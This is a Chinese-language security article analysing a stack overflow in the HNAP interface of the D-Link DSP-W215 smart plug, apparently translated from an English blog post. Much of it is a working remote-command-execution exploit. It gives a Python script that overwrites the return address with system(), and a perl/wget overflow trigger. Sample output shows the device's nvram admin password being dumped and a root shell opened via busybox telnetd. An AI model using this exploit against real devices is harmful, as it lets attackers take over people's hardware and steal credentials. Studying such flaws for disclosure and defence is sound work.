

# D-LinkDSP-W215 智能插座远程命令执行

2014/05/20 13:19 | [livers](http://drops.wooyun.org/author/livers "由 livers 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

D-Link DSP-W215 智能插座是一款通过无线控制电源开关的插座。现在还不能从亚马逊和百思买买到，但是固件可以从 D-Link 网站下载（真蛋疼）。

DSP-W215 存在一个堆栈溢出漏洞，通过该漏洞可以控制整个插座设备，也能控制插座设备上其他电器设备的开关。

## 0x01 分析

* * *

分析插座的固件：


Lzma 压缩，linux 文件系统，uimage 内核压缩镜像。

解压检查文件的内容，发现没有基于 web 的管理界面，只能用它提供的 Android 或者 IOS 应用进行管理，该应用使用了 HNAP（家庭网络管理协议）。

HNAP 是基于 soap 协议，其 req/res 如下：


更多查看[`www.cisco.com/web/partners/downloads/guest/hnap_protocol_whitepaper.pdf`](http://www.cisco.com/web/partners/downloads/guest/hnap_protocol_whitepaper.pdf)

这个智能插座用 lighttpd 轻量级服务器来实现 HNAP 协议的传输，从 lighttpd 的配置上看，HNAP 请求都发送到了`/www/my_cgi.cgi`进行处理。

```
...
alias.url += ( "/HNAP1/" => "/www/my_cgi.cgi",
               "/HNAP1"  => "/www/my_cgi.cgi",
...

```

HNAP 虽然是需要进行认证的协议，但是某些行为是不需要的，如获取设备信息设置之类。


HNAP 请求数据是由在 my_cgi.cgi 的 do_hnap 函数处理。do_hnap 会首先处理 POST 请求中指定的 Content-Length 头。


转换长度（str）为 int.

然后，它读取上述长度字节的数据放入一个分配了固定大小的栈中。（500,000 字节）



F5 转换成 c 代码为：

```
int content_length, i;
char *content_length_str;
char post_data_buf[500000];

content_length = 0;
content_length_str = getenv("CONTENT_LENGTH");

if(content_length_str)
{
   content_length = strtol(content_length_str, 10);
}

memset(post_data_buf, 0, 500000);

for(i=0; i<content_length; i++)
{
   post_data_buf[i] = fgetc();
}

```

明显未对 content_length 进行检查，可以写入大于 500,000 字节的数据进行溢出，但是栈里不止包含 post_data_buf 这个数组，所以需要 1,000,020 进行溢出。

```
perl -e 'print "D"x1000020; print "A"x4' > overflow.txt
wget --post-file=overflow.txt http://192.168.0.60/HNAP1/

```


Arm 寄存器真蛋疼。

由于是 getc 获取的数据，所以可以传入空字节。作者测试自己 my_cgi.cgi 进程中执行 system 地址 0x00405CAC 需要读入空字节。


所以 ，只需要把返回地址覆盖成 0x00405CAC，并把栈的偏移 28 位处加入需要执行的指令代码。

## 0x02 EXP

* * *

```
import sys
import urllib2

command = sys.argv[1]

buf =  "D" * 1000020         # Fill up the stack buffer
buf += "\x00\x40\x5C\xAC"    # Overwrite the return address on the stack
buf += "E" * 0x28            # Stack filler
buf += command               # Command to execute
buf += "\x00"                # NULL terminate the command string

req = urllib2.Request("http://192.168.0.60/HNAP1/", buf)
print urllib2.urlopen(req).read()

```

执行后得到的数据：

```
eve@eve:~$ ./exploit.py 'ls -l /'
drwxr-xr-x    2 1000     1000         4096 Jan 14 14:16 bin
drwxrwxr-x    3 1000     1000         4096 May  9 16:04 dev
drwxrwxr-x    3 1000     1000         4096 Sep  3  2010 etc
drwxrwxr-x    3 1000     1000         4096 Jan 14 14:16 lib
drwxr-xr-x    3 1000     1000         4096 Jan 14 14:16 libexec
lrwxrwxrwx    1 1000     1000           11 May  9 16:01 linuxrc -> bin/busybox
drwxrwxr-x    2 1000     1000         4096 Nov 11  2008 lost+found
drwxrwxr-x    7 1000     1000         4096 May  9 15:44 mnt
drwxr-xr-x    2 1000     1000         4096 Jan 14 14:16 mydlink
drwxrwxr-x    2 1000     1000         4096 Nov 11  2008 proc
drwxrwxr-x    2 1000     1000         4096 May  9 17:49 root
drwxr-xr-x    2 1000     1000         4096 Jan 14 14:16 sbin
drwxrwxr-x    3 1000     1000         4096 May 15 04:27 tmp
drwxrwxr-x    7 1000     1000         4096 Jan 14 14:16 usr
drwxrwxr-x    3 1000     1000         4096 May  9 16:04 var
-rw-r--r--    1 1000     1000           17 Jan 14 14:16 version
drwxrwxr-x    8 1000     1000         4096 May  9 16:52 www

```

也可以直接 dump 配置：

```
eve@eve:~$ ./exploit.py 'nvram show' | grep admin
admin_user_pwd=200416
admin_user_tbl=0/admin_user_name/admin_user_pwd/admin_level
admin_level=1
admin_user_name=admin
storage_user_00=0/admin//

```

或通过开启 telnet 得到一个 shell

```
eve@eve:~$ ./exploit.py 'busybox telnetd -l /bin/sh'
eve@eve:~$ telnet 192.168.0.60
Trying 192.168.0.60...
Connected to 192.168.0.60.
Escape character is '^]'.

BusyBox v1.01 (2014.01.14-12:12+0000) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

/ #

```

打开开关 关闭开关

```
/var/sbin/relay 1   # Turns outlet on
/var/sbin/relay 0   # Turns outlet off

```

作者还搞了个让灯闪烁的脚本：

```
#!/bin/sh

OOK=1

while [ 1 ]
do
   /var/bin/relay $OOK

   if [ $OOK -eq 1 ]
   then
      OOK=0
   else
      OOK=1
   fi
done

```

D-Link’s DIR-505L 也存在这个漏洞。

from:http://www.devttys0.com/2014/05/hacking-the-d-link-dsp-w215-smart-plug/

版权声明：未经授权禁止转载 [livers](http://drops.wooyun.org/author/livers "由 livers 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Perl 数据类型安全研究【翻译】](http://drops.wooyun.org/papers/4505)
*   [Memcache 安全配置](http://drops.wooyun.org/papers/865)
*   [深入探讨 ROP 载荷分析](http://drops.wooyun.org/papers/4077)
*   [一个可大规模悄无声息窃取淘宝/支付宝账号与密码的漏洞 -（埋雷式攻击附带视频演示）](http://drops.wooyun.org/papers/1426)
*   [Zabbix SQL Injection/RCE – CVE-2013-5743](http://drops.wooyun.org/papers/680)
*   [WebView 中接口隐患与手机挂马利用](http://drops.wooyun.org/papers/548)